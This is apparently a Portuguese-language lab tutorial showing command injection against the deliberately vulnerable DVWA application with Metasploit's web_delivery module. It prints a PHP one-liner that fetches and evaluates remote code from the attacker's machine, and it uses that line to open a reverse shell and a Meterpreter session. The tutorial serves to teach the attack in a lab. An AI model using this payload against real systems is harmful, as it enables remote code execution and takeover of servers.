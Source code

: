 ```yaml
---
layout: default
title: Command-Injection com Metasploit
permalink: /artigos/07.md/
---
```

  
  
<p align="center">
 <a href="https://carineconstantino.github.io/cybersecurity/">Página Inicial</a>
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/">Próximo</a>  
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/artigos/07.md">Anterior</a>   
</p>

## Command-Injection com Metasploit

O ataque **Command-Injection** permite a execução de comandos remotamente no sistema operacional a partir de uma aplicação que não faz a validação dos dados de entrada. Quando o ataque é bem sucedido, o comando é executado com o mesmo nível de privilégios da aplicação, ou seja, se a aplicação é executada no sistema operacional com privilégios administrativos, o comando também será executado com esse nível de acesso. 

## Executando o Command-Injection

No exemplo, eu continuo utilizando a aplicação vulnerável [DVWA](http://www.dvwa.co.uk) e a máquina Kali virtualizada com VirtualBox. No metasploit, o módulo _exploit/multi/script/web_delivery_ oferece o exploit do [shell-reverso](https://carineconstantino.github.io/cybersecurity/artigos/03.md). Em um ataque de **command-injection**, o [shell-reverso](https://carineconstantino.github.io/cybersecurity/artigos/03.md) é utilizado para abrir o backdoor com o sistema atacado.

A aplicação [DVWA](http://www.dvwa.co.uk) é construida em PHP e essa será nossa opção na escolha do _targets_ 

![targets](https://carineconstantino.github.io/cybersecurity/artigos/imagens/targets.png)

O módulo do **shell-reverso** é para PHP e a porta local de conexão é padrão 4444. Quando o **command-injection** for executado, a máquina Kali receberá conexões nessa porta e poderá enviar um outro payload, por exemplo, um arquivo de vírus para infectar a máquina. 

![web_delivery_module](https://carineconstantino.github.io/cybersecurity/artigos/imagens/web_delivery_module.png)

Ao executar o módulo, o payload que será enviado através do command-injection será criado. No exemplo, o seguinte payload foi criado: 

```php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.0.26:8080/0piSzsUEIk5'));"```

Na aplicação DVWA, adicionamos a linha junto com uma ação legítima disponível no site. 

![dvwa_command_injection](https://carineconstantino.github.io/cybersecurity/artigos/imagens/dvwa_command_injection.png)

A máquina Kali recebe a conexão pois a aplicação não validou a entrada do comando e passou a execução para o servidor, permitindo abrir o backdoor na porta 4444

![conexao_reversa](https://carineconstantino.github.io/cybersecurity/artigos/imagens/conexao_reversa.png)

O comando _sessions_ confirma a sessão aberta do **shell-reverso**

![sessions](https://carineconstantino.github.io/cybersecurity/artigos/imagens/sessions.png)

## Meterpreter

A manipulação da máquina remota é feita com o excelente [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) através do comando ```sessions -i 1```

![sessions_1](https://carineconstantino.github.io/cybersecurity/artigos/imagens/sessions_1.png)





